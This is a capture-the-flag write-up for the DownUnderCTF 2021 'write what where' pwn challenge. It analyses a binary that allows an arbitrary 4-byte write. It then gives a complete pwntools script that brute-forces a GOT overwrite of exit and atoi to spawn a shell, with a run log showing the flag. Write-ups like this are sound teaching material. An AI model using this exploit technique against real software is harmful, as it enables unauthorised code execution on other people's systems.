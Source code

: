 # DownUnderCTF 2021

## write what where

> 310
> 
> You've got one write. What do you do?
>
> Author: joseph#8210
>
> `nc pwn-2021.duc.tf 31920`
>
> [`write-what-where`](write-what-where) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86-64_ _write-what-where_ _remote-shell_ _got-overwrite_


## Summary

Brute force GOT overwrite using free _write-what-where_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO = GOT overwrite; No PIE = Easy ROP; No canary = Easy BOF.


### Decompile with Ghidra   

```c
void main(EVP_PKEY_CTX *param_1)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined4 local_2c;
  char local_28 [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("write");
  puts("what?");
  read(0,&local_2c,4);
  puts("where?");
  read(0,local_28,9);
  iVar1 = atoi(local_28);
  *(undefined4 *)(long)iVar1 = local_2c;
  exit(0);
}
```

So, yeah, _write-what-where_.  You can write any 4 bytes just about anywhere you want (that is `rw` memory).

There may be better ways to solve this, less crude ways, but I immediately considered a simple brute force solution (done it before).

First we need multiple _write-what-where_ exploits.  The first is obvious, change `exit` in the GOT to be `main`.

The next _w-w-w_ will change `atoi` to `system`, however because of ASLR there's only a 1 in 16 chance it will work _and_ `atoi` and `system` have to be within the same `0x10000` bytes.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./write-what-where')

context.log_level = 'WARN'

attempt = 0
while True:
    try:
        if args.REMOTE:
            p = remote('pwn-2021.duc.tf', 31920)
            libc = ELF('./libc.so.6')
            tout = 1.0
        else:
            p = process(binary.path)
            libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
            tout = 0.5

        assert(libc.sym.system - libc.sym.atoi + (libc.sym.atoi & 0xfff) < 0x10000), '\nthis libc will not work\n'
        
        attempt += 1
        log.warn('attempt: ' + str(attempt))

        p.sendafter(b'what?\n',p32(binary.sym.main))
        p.sendafter(b'where?\n',str(binary.got.exit).encode())

        p.sendafter(b'what?\n',p32(((libc.sym.system | 0xf000) & 0xffff) << 16))
        p.sendafter(b'where?\n',str(binary.got.atoi - 2).encode())

        p.sendafter(b'what?\n',b'0000',timeout=tout)
        p.sendafter(b'where?\n',b'/bin/sh\0',timeout=tout)

        p.sendline(b'echo shell')
        if b'shell' in p.recvline(timeout=tout):
            p.interactive()
            break
    except AssertionError as err:
        print(err)
        sys.exit(1)
    except:
        try:
            p.close()
        except:
            continue
```

This is brute force, so we'll need a loop.

The `assert` checks if the `libc` is even an option.  Otherwise we need to find a different approach.

Next we'll change `exit` to `main`.

On our second pass we'll replace the last 4 nibbles of `atoi` with `system` starting with `0xf`.

> We only need to overwrite 2 bytes (4 nibbles) so the actually write is 2 less than the address of the `atoi` GOT entry.

On the last pass, the `what` no longer matters, just the `where`; if the `atoi` conversion to `system` was successful, our input of `/bin/sh` for `where` will give us a shell.

Crash?  We'll leverage ASLR and try again.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/write-what-where/write-what-where'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[!] attempt: 1
[!] attempt: 2
[!] attempt: 3
[!] attempt: 4
[!] attempt: 5
[!] attempt: 6
$ cat flag.txt
DUCTF{arb1tr4ry_wr1t3_1s_str0ng_www}
```

> My shortest number of attempts was 5, longest was 29.